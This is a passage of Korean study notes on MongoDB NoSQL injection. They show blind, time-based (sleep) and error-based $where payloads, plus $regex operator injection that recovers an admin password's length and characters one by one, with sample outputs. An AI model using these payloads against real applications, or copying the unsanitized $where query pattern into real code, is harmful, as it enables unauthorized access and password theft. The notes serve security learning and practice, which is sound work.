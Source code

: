 ```sql
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
	...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
	{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```
##### Time based Injection
Sleep 함수를 통한 Time based Injection

```sql
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```
##### Error based Injection

```sql
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
		error: {
			"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
			"code" : 16722
		}
		// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
		// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```
### Mongodb exploit 예시
##### passwd 길이 알아내기

```
{"uid": "admin", "upw": {"$regex":".{5}"}}
=> admin
{"uid": "admin", "upw": {"$regex":".{6}"}}
=> undefined
```
##### passwd 알아내기

```
{"uid": "admin", "upw": {"$regex":"^a"}}
admin
{"uid": "admin", "upw": {"$regex":"^aa"}}
undefined
{"uid": "admin", "upw": {"$regex":"^ab"}}
undefined
{"uid": "admin", "upw": {"$regex":"^ap"}}
admin
...
{"uid": "admin", "upw": {"$regex":"^apple$"}}
```
##### url에서 로그인
